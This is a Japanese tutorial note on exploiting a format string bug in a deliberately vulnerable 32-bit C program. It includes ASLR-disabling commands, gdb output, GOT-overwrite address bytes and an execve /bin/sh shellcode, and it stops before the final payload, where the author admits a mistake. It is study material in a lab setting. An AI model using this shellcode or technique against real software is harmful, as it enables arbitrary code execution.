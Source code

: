 <!-- TITLE: Format String Attack -->
<!-- SUBTITLE: A quick summary of Format String Attack -->

# FSBのコード

ももいろテクノロジー様の記事を参考に進めていく[^1]


```c
#include <stdio.h>
#include <string.h>

int main(int argc, char *argv[])
{
    char buf[100];
    printf("[+] buf = %p\n", buf);
    strncpy(buf, argv[1], 100);
    printf(buf);
    putchar('\n');
    return 0;
}
```

# コンパイル

```sh
$ sudo sysctl -a | grep kernel.randomize_va_space
kernel.randomize_va_space = 2
$ sudo sysctl -w kernel.randomize_va_space=0
kernel.randomize_va_space = 0
$ gcc -m32 -z execstack fsb.c -o fsb
$ ./fsb $(python -c 'print "AAAA" + ".%08x"*16')
[+] buf = 0xffffd1e8
AAAA.ffffd517.00000064.00f0b5ff.ffffd20e.00000001.000000c2.ffffd304.ffffd20e.ffffd310.41414141.3830252e.30252e78.252e7838.2e783830.78383025.3830252e
```

最初の**AAAA**を*0*とすると、*10*番目に**41414141**、すなわちASCIIコードの**AAAA**が表示されている

# GDB

## 調査

まず、`print(buf)`に該当する部分にブレークポイントを貼る
&#8942;

```sh
$ gdb -q ./fsb
⋮
gef➤  disas main
Dump of assembler code for function main:
   0x080484cb <+0>:	lea    ecx,[esp+0x4]
   ⋮
   0x08048518 <+77>:	call   0x80483b0 <strncpy@plt>
   0x0804851d <+82>:	add    esp,0x10
   0x08048520 <+85>:	sub    esp,0xc
   0x08048523 <+88>:	lea    eax,[ebp-0x70]
   0x08048526 <+91>:	push   eax
   0x08048527 <+92>:	call   0x8048370 <printf@plt>
   ⋮
	 0x08048534 <+105>:	call   0x80483a0 <putchar@plt>
   ⋮
   0x08048559 <+142>:	ret    
End of assembler dump.
gef➤  b *main+92
Breakpoint 1 at 0x8048527
```

次に、`<putchar@plt>`のアドレスを逆アセンブルして、GOT tableを除く

```sh
gef➤  disas 0x80483a0
Dump of assembler code for function putchar@plt:
   0x080483a0 <+0>:	jmp    DWORD PTR ds:0x804a018
   0x080483a6 <+6>:	push   0x18
   0x080483ab <+11>:	jmp    0x8048360
End of assembler dump.
```

とりあえず実行して、`0x804a018`を*xinfo*コマンドでアドレスの情報を調べる

```sh
gef➤  r AAAA
⋮
gef➤  xinfo 0x804a018 
──────────────────────────────────────────[ xinfo: 0x804a018 ]──────────────────────────────────────────
Page: 0x0804a000  →  0x0804b000 (size=0x1000)
Permissions: rwx
⋮
```

*Permissions*を見てみると、**w**ビットが立っていることから書き込み可能領域であることがわかる

%hhn指定子を使って1byteずつ処理する予定なので、実行時の引数は

```python
>>> from pwn import *
>>> addr = 0x0804a018
>>> p32(addr) + p32(addr + 1) + p32(addr + 2) + p32(addr + 3)
b'\x18\xa0\x04\x08\x19\xa0\x04\x08\x1a\xa0\x04\x08\x1b\xa0\x04\x08'
```

GDBにこれを引数で渡してやる

```sh
gef➤  r $(python -c 'print "\x18\xa0\x04\x08\x19\xa0\x04\x08\x1a\xa0\x04\x08\x1b\xa0\x04\x08"')
⋮
gef➤  telescope $esp l20
0xffffd130│+0x00: 0xffffd158  →  0x0804a018  →  0x080483a6  →  <putchar@plt+6> push 0x18	 ← $esp
0xffffd134│+0x04: 0xffffd4ba  →  0x0804a018  →  0x080483a6  →  <putchar@plt+6> push 0x18
0xffffd138│+0x08: 0x00000064 ("d"?)
0xffffd13c│+0x0c: 0x00f0b5ff
0xffffd140│+0x10: 0xffffd17e  →  0x00000000
0xffffd144│+0x14: 0x00000001
0xffffd148│+0x18: 0x000000c2
0xffffd14c│+0x1c: 0xffffd274  →  0xffffd494  →  "/home/mkm/Develop/unix/c_test/got/fsb"
0xffffd150│+0x20: 0xffffd17e  →  0x00000000
0xffffd154│+0x24: 0xffffd280  →  0xffffd4cb  →  "XDG_SEAT=seat0"
0xffffd158│+0x28: 0x0804a018  →  0x080483a6  →  <putchar@plt+6> push 0x18	 ← $eax
0xffffd15c│+0x2c: 0x0804a019  →  <_GLOBAL_OFFSET_TABLE_+25> add DWORD PTR [eax+ecx*1], 0x0
0xffffd160│+0x30: 0x0804a01a  →  <_GLOBAL_OFFSET_TABLE_+26> add al, 0x8
0xffffd164│+0x34: 0x0804a01b  →  <_GLOBAL_OFFSET_TABLE_+27> or BYTE PTR [eax], al
0xffffd168│+0x38: 0x00000000
0xffffd16c│+0x3c: 0x00000000
0xffffd170│+0x40: 0x00000000
0xffffd174│+0x44: 0x00000000
0xffffd178│+0x48: 0x00000000
0xffffd17c│+0x4c: 0x00000000
```

スタックフレームを見ると、先ほどなぜ*10*番目に**41414141**が位置していたかがわかる（$eax = $esp + 0x28, 0x28 / 4 = 10）

## Shellcodeを入れる位置（オフセット）

[^1] と同様のshellcodeをここでは用いる

```python
shellcode = "\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\x8d\x42\x0b\xcd\x80"
```

shellcodeを挿入するとして、どこに入れるといいだろうか？
先ほどの、アドレス引数4つの後にくっつけてGDBで実行してみる

```sh
gef➤  r $(python -c 'print "\x18\xa0\x04\x08\x19\xa0\x04\x08\x1a\xa0\x04\x08\x1b\xa0\x04\x08" + "\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\x8d\x42\x0b\xcd\x80"')
⋮
gef➤  telescope $esp l25
0xffffd110│+0x00: 0xffffd138  →  0x0804a018  →  0x080483a6  →  <putchar@plt+6> push 0x18	 ← $esp
0xffffd114│+0x04: 0xffffd4a2  →  0x0804a018  →  0x080483a6  →  <putchar@plt+6> push 0x18
0xffffd118│+0x08: 0x00000064 ("d"?)
0xffffd11c│+0x0c: 0x00f0b5ff
0xffffd120│+0x10: 0xffffd15e  →  0x000080cd
0xffffd124│+0x14: 0x00000001
0xffffd128│+0x18: 0x000000c2
0xffffd12c│+0x1c: 0xffffd254  →  0xffffd47c  →  "/home/mkm/Develop/unix/c_test/got/fsb"
0xffffd130│+0x20: 0xffffd15e  →  0x000080cd
0xffffd134│+0x24: 0xffffd260  →  0xffffd4cb  →  "XDG_SEAT=seat0"
0xffffd138│+0x28: 0x0804a018  →  0x080483a6  →  <putchar@plt+6> push 0x18	 ← $eax
0xffffd13c│+0x2c: 0x0804a019  →  <_GLOBAL_OFFSET_TABLE_+25> add DWORD PTR [eax+ecx*1], 0x0
0xffffd140│+0x30: 0x0804a01a  →  <_GLOBAL_OFFSET_TABLE_+26> add al, 0x8
0xffffd144│+0x34: 0x0804a01b  →  <_GLOBAL_OFFSET_TABLE_+27> or BYTE PTR [eax], al
0xffffd148│+0x38: 0x6852d231
0xffffd14c│+0x3c: 0x68732f2f
0xffffd150│+0x40: 0x69622f68
0xffffd154│+0x44: 0x52e3896e
0xffffd158│+0x48: 0x8de18953
0xffffd15c│+0x4c: 0x80cd0b42
0xffffd160│+0x50: 0x00000000
0xffffd164│+0x54: 0x00000000
0xffffd168│+0x58: 0x00000000
0xffffd16c│+0x5c: 0x00000000
0xffffd170│+0x60: 0x00000000
```

先ほどとは異なり、*0xffffd148*からshellcodeがスタックに積まれている
すなわち、このアドレスに飛ばすようにGOT tableを書き換えればshellが起動するはず
このアドレスと$eax（**\x18\xa0\x04\x08**が最初に書き込まれたアドレス）からのオフセットは、4byteのアドレス4個分なので、4 * 4 = **16**

したがって、飛ばす先は

```sh
gef➤  p $eax + 16
$1 = 0xffffd148
```

little endianなので`\x48\xd1\xff\xff`

# Exploit

さて、今まで書き込んだバイト数は、shellcodeが24byteなので
4 * 4 + 24 = 40 byteになる

最初に書き込む値は

ここまでやって失敗に気づきました
クソが
